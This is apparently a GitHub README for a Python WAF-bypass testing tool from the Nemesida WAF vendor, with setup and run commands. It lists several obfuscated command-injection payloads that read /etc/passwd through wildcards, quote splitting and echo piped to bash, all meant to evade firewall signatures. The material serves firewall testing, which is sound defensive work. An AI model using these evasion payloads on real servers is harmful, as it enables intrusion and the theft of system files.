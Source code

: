 # WAF Bypass script

WAF bypass is a simple script written in Python3 and designed to check the WAF. Before use, it is recommended to temporarily add the IP address from which testing is carried out to the whitelist.

## Do not break the law when using!

A script developed for internal needs, including for testing Nemesis WAF and Nemesida WAF Free, but you can use it to test any WAF.

![WAF Bypass Script](https://img.defcon.ru/store/2020/06/b2c49eec8dce3f156d90bcd35a9f2739.png)

There are attacks for which it is impossible to create a signature, while not increasing the number of false positives. Therefore, it is absolutely normal that Nemesida WAF Free skips the attack, and the commercial version of Nemesida WAF Free blocks. For example, we can execute the <code>cat /etc/passwd</code> command in the following ways:
<pre>
%2f???%2f??t%20%2f???%2fp??s??
cat+/e't'c/pa'ss'wd
e'c'ho 'swd test pentest' |awk '{print "cat /etc/pas"$1}' | bash
ec'h'o 'cat /etc/examplewd' | sed 's/example/pass/g' | bash
</pre>

## How to run

<pre>
# mkdir /opt/waf-bypass/
# git clone https://github.com/nemesida-waf/waf_bypass.git /opt/waf-bypass/
# python3 -m pip install -r /opt/waf-bypass/requirements.txt
# cd /opt/waf-bypass/

# python3 /opt/waf-bypass/main.py
</pre>
